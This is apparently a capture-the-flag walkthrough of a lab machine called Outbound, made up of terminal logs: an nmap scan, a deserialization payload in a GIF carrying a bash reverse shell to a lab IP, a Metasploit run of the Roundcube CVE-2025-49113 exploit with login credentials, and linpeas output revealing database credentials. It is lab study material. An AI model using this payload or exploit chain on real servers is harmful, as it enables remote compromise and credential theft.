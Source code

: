 ```bash
└─# nmap --open -sS -sV -T5 -n -Pn -A 10.10.11.77
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-15 04:49 EDT
Nmap scan report for 10.10.11.77
Host is up (0.069s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 0c:4b:d2:76:ab:10:06:92:05:dc:f7:55:94:7f:18:df (ECDSA)
|_  256 2d:6d:4a:4c:ee:2e:11:b6:c8:90:e6:83:e9:df:38:b0 (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to http://mail.outbound.htb/
|_http-server-header: nginx/1.24.0 (Ubuntu)
Device type: general purpose|router
Running: Linux 5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 5.0 - 5.14, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   49.13 ms 10.10.14.1
2   88.96 ms 10.10.11.77

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.55 seconds
```

```bash
└─# cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
::1             localhost ip6-localhost ip6-loopback
ff02::1         ip6-allnodes
ff02::2         ip6-allrouters

10.10.11.77     mail.outbound.htb
```
```bash
└─# strings 'exploit(1).gif'                                                                                       
GIF89a
O:32:"Monolog\Handler\SyslogUdpHandler":1:{s:9:"*socket";O:29:"Monolog\Handler\BufferHandler":7:{s:10:"*handler";r:2;s:13:"*bufferSize";i:-1;s:9:"*buffer";a:1:{i:0;a:2:{i:0;s:52:"bash -c 'bash -i >& /dev/tcp/10.10.14.105/4444 0>&1'";s:5:"level";N;}}s:8:"*xlevel";N;s:14:"*initialized";b:1;s:14:"*bufferLimit";i:-1;s:13:"*processors";a:2:{i:0;s:7:"current";i:1;s:6:"system";}}}

┌──(root㉿kali)-[/home/kali/Downloads]
└─# strings 'exploit.gif'                                                                                        
GIF89a
@payload.txt
``

```bash
msf6 > search CVE-2025-49113

Matching Modules
================

   #  Name                                                  Disclosure Date  Rank       Check  Description
   -  ----                                                  ---------------  ----       -----  -----------
   0  exploit/multi/http/roundcube_auth_rce_cve_2025_49113  2025-06-02       excellent  Yes    Roundcube ≤ 1.6.10 Post-Auth RCE via PHP Object Deserialization
   1    \_ target: Linux Dropper                            .                .          .      .
   2    \_ target: Linux Command                            .                .          .      .


Interact with a module by name or index. For example info 2, use 2 or use exploit/multi/http/roundcube_auth_rce_cve_2025_49113
After interacting with a module you can manually set a TARGET with set TARGET 'Linux Command'

msf6 > use 0
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/roundcube_auth_rce_cve_2025_49113) > show options

Module options (exploit/multi/http/roundcube_auth_rce_cve_2025_49113):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   HOST                        no        The hostname of Roundcube server
   PASSWORD                    yes       Password to login with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]. Supported proxies: sapni, socks4, socks5, socks5h, http
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The URI of the Roundcube Application
   URIPATH                     no        The URI to use for this exploit (default is random)
   USERNAME                    yes       Email User to login with
   VHOST                       no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux Dropper



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/roundcube_auth_rce_cve_2025_49113) > set SRVPORT 80
SRVPORT => 80
msf6 exploit(multi/http/roundcube_auth_rce_cve_2025_49113) > set SRVHOST 10.10.11.77
SRVHOST => 10.10.11.77
msf6 exploit(multi/http/roundcube_auth_rce_cve_2025_49113) > set LHOST 10.10.14.123
LHOST => 10.10.14.123
msf6 exploit(multi/http/roundcube_auth_rce_cve_2025_49113) > set LPORT 4444
LPORT => 4444
msf6 exploit(multi/http/roundcube_auth_rce_cve_2025_49113) > set PASSWORD LhKL1o9Nm3X2
PASSWORD => LhKL1o9Nm3X2
msf6 exploit(multi/http/roundcube_auth_rce_cve_2025_49113) > set USERNAME tyler
USERNAME => tyler
msf6 exploit(multi/http/roundcube_auth_rce_cve_2025_49113) > set RHOSTS http://mail.outbound.htb/
RHOSTS => http://mail.outbound.htb/
msf6 exploit(multi/http/roundcube_auth_rce_cve_2025_49113) > run
[*] Started reverse TCP handler on 10.10.14.123:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] Extracted version: 10610
[+] The target appears to be vulnerable.
[*] Fetching CSRF token...
[+] Extracted token: iddjjBHYZ1evRXgRqMa5RqOQKr2iDund
[*] Attempting login...
[+] Login successful.
[*] Preparing payload...
[+] Payload successfully generated and serialized.
[*] Uploading malicious payload...
[+] Exploit attempt complete. Check for session.
[*] Sending stage (3045380 bytes) to 10.10.11.77
[*] Meterpreter session 1 opened (10.10.14.123:4444 -> 10.10.11.77:54704) at 2025-07-16 09:30:37 -0400
```
Linepeas ha descubierto esto
```bash
╔══════════╣ Analyzing Roundcube Files (limit 70)
drwx------ 1 mysql mysql 4096 Jul 16 14:50 /var/lib/mysql/roundcube                                                 
find: '/var/lib/mysql/roundcube': Permission denied

drwxr-xr-x 1 www-data www-data 4096 Jun  6 18:55 /var/www/html/roundcube
-rw-r--r-- 1 root root 3024 Jun  6 18:55 /var/www/html/roundcube/config/config.inc.php
$config['db_dsnw'] = 'mysql://roundcube:RCDBPass2025@localhost/roundcube';
$config['imap_host'] = 'localhost:143';
$config['smtp_host'] = 'localhost:587';
$config['smtp_user'] = '%u';
$config['smtp_pass'] = '%p';
$config['support_url'] = '';
$config['product_name'] = 'Roundcube Webmail';
$config['des_key'] = 'rcmail-!24ByteDESkey*Str';
$config['plugins'] = [
$config['skin'] = 'elastic';
$config['default_host'] = 'localhost';
$config['smtp_server'] = 'localhost';
```
